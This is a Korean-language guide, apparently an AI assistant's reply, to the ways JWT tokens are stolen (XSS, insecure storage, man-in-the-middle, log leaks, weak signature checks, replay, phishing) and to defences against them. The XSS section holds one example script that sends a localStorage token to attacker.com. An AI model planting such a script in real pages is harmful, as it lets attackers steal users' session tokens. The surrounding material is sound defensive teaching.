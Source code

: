 JWT (JSON Web Token)는 보안에 강력한 도구이지만, **토큰이 노출되면 치명적인 보안 위협**이 발생할 수 있습니다.  
토큰 탈취는 주로 **애플리케이션, 네트워크, 사용자의 실수 등 다양한 경로**를 통해 발생합니다.

---

## 🛡️ **1. 클라이언트 측 취약점**

### ✅ **1.1 XSS (Cross-Site Scripting)**

- **설명:** 공격자가 웹 페이지에 악성 스크립트를 삽입하여 사용자의 브라우저에서 JWT를 탈취합니다.
- **공격 방법:**
    - 브라우저의 `localStorage`, `sessionStorage`, 또는 `cookie`에 저장된 토큰을 탈취.
    - 예시:

```javascript
<script>
  fetch('https://attacker.com/steal?token=' + localStorage.getItem('token'));
</script>
```

- **예방 방법:**
    - 토큰을 `HttpOnly` 쿠키에 저장 (JavaScript 접근 불가).
    - 입력 값 검증 및 HTML 이스케이프.
    - CSP (Content Security Policy) 적용.

---

### ✅ **1.2 토큰 저장 방식 문제**

- **설명:** 토큰이 `localStorage`나 `sessionStorage`에 저장되면, 브라우저의 스크립트를 통해 접근이 가능합니다.
- **안전한 방법:**
    - **`HttpOnly` 쿠키를 사용** (JavaScript로 접근 불가).
    - `Secure` 플래그로 HTTPS 통신만 허용.

---

## 🌐 **2. 네트워크 취약점**

### ✅ **2.1 중간자 공격 (Man-in-the-Middle, MITM)**

- **설명:** 공격자가 클라이언트와 서버 간 통신을 가로채 JWT를 탈취합니다.
- **공격 방법:**
    - HTTPS가 아닌 HTTP로 통신.
    - 인증서 위변조.
- **예방 방법:**
    - **HTTPS 사용 필수.**
    - SSL/TLS 인증서 검증 강화.
    - HSTS (HTTP Strict Transport Security) 활성화.

---

### ✅ **2.2 로그 노출 (Logging Leak)**

- **설명:** 개발 중 토큰이 로그에 기록되어 노출될 수 있습니다.
- **예시:**

```plaintext
INFO: User login success, token=eyJhbGciOiJIUzI1NiIsIn...
```

- **예방 방법:**
    - 로그에 민감한 정보(토큰, 비밀번호) 포함 금지.
    - 보안 감사 및 로그 관리.

---

## 💻 **3. 서버 측 취약점**

### ✅ **3.1 잘못된 토큰 검증**

- **설명:** 서버가 토큰의 서명을 제대로 검증하지 않는 경우 공격자가 위조된 토큰으로 인증할 수 있습니다.
- **예시:**
    - 잘못된 비밀키 사용.
    - 서명 검증 미사용.
- **예방 방법:**
    - 반드시 **토큰 서명 검증**.
    - 비밀키를 안전하게 관리.
    - 잘못된 알고리즘 (예: `none`) 거부.

---

### ✅ **3.2 토큰 재사용 (Replay Attack)**

- **설명:** 공격자가 탈취한 JWT를 재사용하여 서버에 접근합니다.
- **예방 방법:**
    - **토큰 블랙리스트/화이트리스트** 관리.
    - 토큰 사용 시마다 만료 확인.
    - 토큰에 **jti (JWT ID)**를 추가하여 중복 사용 방지.

---

## 🧠 **4. 사용자 실수**

### ✅ **4.1 피싱 공격 (Phishing Attack)**

- **설명:** 사용자가 가짜 로그인 페이지에 토큰을 입력하여 탈취됩니다.
- **예방 방법:**
    - 사용자에게 공식 도메인을 안내.
    - 브라우저의 주소 표시줄 확인 강조.
    - 2FA (Two-Factor Authentication) 활성화.

---

### ✅ **4.2 공용 기기 사용**

- **설명:** 사용자가 로그아웃하지 않은 상태로 공용 기기(PC, 태블릿 등)를 사용한 경우.
- **예방 방법:**
    - 자동 로그아웃 기능 설정.
    - 로그아웃 후 토큰 무효화.
    - 보안 세션 관리.

---

## 📊 **탈취 경로 요약**

|**경로**|**설명**|**예방 방법**|
|---|---|---|
|**XSS**|브라우저에서 JavaScript로 토큰 접근|HttpOnly 쿠키, CSP 적용|
|**LocalStorage**|저장소를 통해 접근 가능|HttpOnly 쿠키 사용|
|**MITM**|통신 중간에서 토큰 탈취|HTTPS 강제, SSL/TLS 강화|
|**로그 노출**|토큰이 서버 로그에 노출됨|민감 정보 로깅 금지|
|**서명 검증 오류**|잘못된 알고리즘/서명 검증 미흡|강력한 서명 검증, 알고리즘 검증|
|**Replay Attack**|탈취한 토큰 재사용|블랙리스트/화이트리스트, `jti` 사용|
|**피싱**|가짜 로그인 페이지로 토큰 유출|공식 도메인 확인, 2FA 활성화|
|**공용 기기**|공용 기기에서 토큰 노출|자동 로그아웃, 세션 만료 관리|

---

## 🚀 **JWT 보안을 위한 Best Practice**

1. **HttpOnly, Secure 쿠키 사용:** JavaScript 접근 차단 및 HTTPS 강제.
2. **HTTPS 강제:** SSL/TLS로 네트워크 보안 강화.
3. **짧은 만료 시간 설정:** 액세스 토큰은 짧게, 리프레시 토큰은 상대적으로 길게.
4. **블랙리스트/화이트리스트 관리:** 로그아웃 또는 강제 만료 처리.
5. **알고리즘 검증:** JWT 서명 알고리즘 확인 (`none` 사용 금지).
6. **jti (JWT ID) 사용:** 토큰 중복 사용 방지.
7. **모니터링:** 의심스러운 로그인 활동 탐지.
8. **보안 테스트:** XSS, CSRF 취약점 검증.

---

## 🧠 **JWT 보안, 어디에 집중해야 할까?**

- **클라이언트:** XSS, 토큰 저장소 (`HttpOnly` 쿠키).
- **네트워크:** HTTPS 강제, SSL/TLS 인증서 확인.
- **서버:** 올바른 토큰 서명 검증, 짧은 토큰 만료 시간, 블랙리스트/화이트리스트 관리.
- **사용자:** 피싱 주의, 공용 기기 사용 금지.

---

### 🎯 **결론**

- JWT 자체는 안전합니다. **하지만 관리와 저장이 문제의 핵심입니다.**
- **XSS 공격과 네트워크 탈취를 가장 주의해야 합니다.**
- **HttpOnly Secure 쿠키 사용, HTTPS 강제, 올바른 서명 검증**을 통해 안전성을 보장할 수 있습니다.

---

더 궁금한 점이 있거나, 특정 보안 취약점에 대해 자세히 알고 싶다면 말씀해주세요! 🚀😊